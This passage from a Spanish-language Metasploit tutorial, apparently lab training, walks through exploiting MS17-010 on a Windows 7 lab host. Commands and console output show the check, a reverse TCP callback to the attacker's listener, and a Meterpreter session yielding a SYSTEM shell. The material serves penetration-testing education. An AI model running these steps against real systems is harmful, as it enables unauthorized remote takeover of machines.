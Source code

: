 ~~~

~~~

Cualquier opción con el conjunto `Required` en sí debe establecerse para que funcione el exploit. En este caso, solo tenemos dos opciones para configurar: RHOSTS, que significa la IP de nuestro objetivo (esta puede ser una IP, varias IP o un archivo que contiene una lista de IP). Podemos configurarlos con el comando set: 

~~~
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0
~~~

Una vez que tengamos configuradas ambas opciones, podemos comenzar la explotación. Sin embargo, antes de ejecutar el script, podemos ejecutar una verificación para asegurarnos de que el servidor sea vulnerable: 

~~~

msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

~~~

Como podemos ver, el servidor es realmente vulnerable. Tenga en cuenta que no todos los exploits en `Metasploit Framework` admiten la función de verificación. Finalmente, podemos usar el comando `run` o `exploit` para ejecutar el exploit: 

~~~
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM
~~~
